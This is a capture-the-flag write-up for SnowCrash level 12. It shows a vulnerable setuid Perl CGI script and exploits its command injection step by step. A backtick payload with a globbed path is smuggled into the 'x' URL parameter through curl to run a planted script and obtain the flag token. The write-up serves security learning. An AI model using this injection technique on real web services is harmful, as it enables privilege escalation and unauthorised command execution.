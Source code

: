 # Level 12

## Vulnerability
Priviledge escalation via CGI code injection

## Context
```
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```
## Solution
Let's ```cat``` the file and see what we find. 
```
level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```
This program uses CGI (Common Gateway Interface) to execute a shellscript.<br/>
Here's what that would look like in a navigator:<br/>
```http://${VM_IP}:4646/?x={shellscript}<br/>```

In the program, the shellscript is evaluated in the $xx variable... which we can exploit!<br/>
The regex will capitalize the $xx argument. <br/>
So if we write ```x="getflag > /dev/shm/flag12"``` it will be changed to ```"GETFLAG > /DEV/SHM/FLAG12"```.<br/>
Linux is case-sensitive, so it will fail to recognize a filepath in capital case. <br/>
Hmm... let's try writing our script to a file instead. 
```
level12@SnowCrash:~$ echo "getflag > /dev/shm/flag12" > /dev/shm/EXPLOIT
level12@SnowCrash:~$ cat /dev/shm/EXPLOIT
getflag > /dev/shm/flag12
```
Let's make sure we can run the script. 
```
level12@SnowCrash:~$ cd /dev/shm
level12@SnowCrash:/dev/shm$ `EXPLOIT`
EXPLOIT: command not found

level12@SnowCrash:/dev/shm$ `/dev/shm/EXPLOIT`
bash: /dev/shm/EXPLOIT: Permission denied
```
Ok, looks like it's not executable. Let's change the permissions on the file. 
```
level12@SnowCrash:/dev/shm$ chmod 755 EXPLOIT
level12@SnowCrash:/dev/shm$ `/dev/shm/EXPLOIT`
level12@SnowCrash:/dev/shm$ ls
EXPLOIT  flag12
level12@SnowCrash:/dev/shm$ cat flag12
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```
It works! Time to leverage the perl program to execute our script.<br/>
Since we can't pass the filepath directly (it'll get capitalized by the perl program and be unrecognizable), we'll use globbing and replace the file path with asterisks.
```
level12@SnowCrash:/dev/shm$ curl '127.0.0.1:4646?x="`/*/*/EXPLOIT`"'
..
level12@SnowCrash:/dev/shm$ cat flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
Success!
